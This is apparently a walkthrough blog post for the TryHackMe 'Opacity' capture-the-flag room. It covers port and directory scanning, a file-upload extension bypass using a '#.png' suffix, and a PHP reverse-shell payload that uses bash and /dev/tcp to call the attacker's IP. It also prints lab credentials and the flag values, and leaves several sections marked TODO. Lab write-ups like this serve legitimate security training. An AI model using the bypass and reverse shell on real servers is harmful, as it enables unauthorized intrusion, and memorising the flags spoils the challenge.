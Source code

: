 ```yaml
---
title: THM - Walkthrough - Opacity [Easy]
date: 2024-07-28 00:00:00 +/-TTTT
categories: [Walkthrough]
tags: [ctf, thm, easy]     # TAG names should always be lowercase
---
```


The room is available [here](https://tryhackme.com/room/opacity).

## Information Gathering

### Port Scanning

We start by using `nmap` to scan the target machine for open ports and services.

```
$ nmap -sV 10.10.86.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-28 12:38 EDT
Nmap scan report for 10.10.86.31
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.07 seconds
```

We see that the target machine has the following services running:
- `SSH` on port 22
- `HTTP` on port 80
- `Samba` on ports 139 and 445

### Website Enumeration

Visiting the website at `http://10.10.86.31` we are redirected on `http://10.10.86.31/login.php` which is a login page.

![Login Page](assets/img/posts/walkthroughs/opacity/20240728_opacity_login_page.png)

#### Directory Enumeration

We use `gobuster` to find hidden directories on the website.

```
$ gobuster dir -u http://10.10.86.31/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster_dir_output.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.31/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://10.10.86.31/css/]
/cloud                (Status: 301) [Size: 310] [--> http://10.10.86.31/cloud/]
...
```

We find a directory `/cloud` containing a index page.

![Cloud Directory](assets/img/posts/walkthroughs/opacity/20240728_opacity_cloud.png)

## Exploitation

### File Upload

We seems to have a file upload form on the page. We try to upload a PHP file by creating a simple HTTP server with Python (`$ python -m http.server 1234`) and a simple PHP file.

```php
<?php
phpinfo();
?>
```

Then we provide the URL of the PHP file to the upload form.

`http://10.2.34.126:1234/payload.php`

Unfortunately, the upload is blocked by the server. The server is checking the file extension and only allows images file extensions.

![Upload Blocked](assets/img/posts/walkthroughs/opacity/20240728_opacity_fail_upload.png)

We can bypass this by using a PHP file with a valid image extension and bypassing the filter with a `#`.
The server will only check the extension after the `#` and not interpret it when making the GET request on our server. 

`payload.php#.png`

We provide the new URL to the upload form.

`http://10.2.34.126:1234/payload.php#.png`

![Upload Success](assets/img/posts/walkthroughs/opacity/20240728_opacity_successful_upload.png)

The upload is successful and we can then access the file at `http://10.10.86.31/cloud/images/payload.php`.

![phpinfo Injection](assets/img/posts/walkthroughs/opacity/20240728_opacity_phpinfo.png)

As we can see, the php file is executed and we can now inject PHP code.
(It is possible the server remove the file before you try to access it, you can try to upload it again)

### Reverse Shell

We can now inject a reverse shell in the PHP file after setting up a listener on our machine.

```php
<?php
echo shell_exec("bash -c 'exec bash -i &>/dev/tcp/10.2.34.126/1235 <&1'");
?>
```

Following the same process as before, we upload the file with the `.png` extension and access it at `http://10.10.86.31/cloud/images/payload.php`.

And now we have a reverse shell on the target machine.

### Local Enumeration **TODO**

```php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');

                ...
        }
?>
```

### Keepass Crack

**TODO**

![Keepass Database](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepass_crack.png)

`dataset:741852963`

`sysadmin:Cl0udP4ss40p4city#8700`

![Local flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_local_flag.png)

`6661b61b44d234d230d06bf5b3c075e2`

## Post-Exploitation

### Privilege Escalation

**TODO**

![Root flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_root_flag.png)

`ac0d56f93202dd57dcb2498c739fd20e`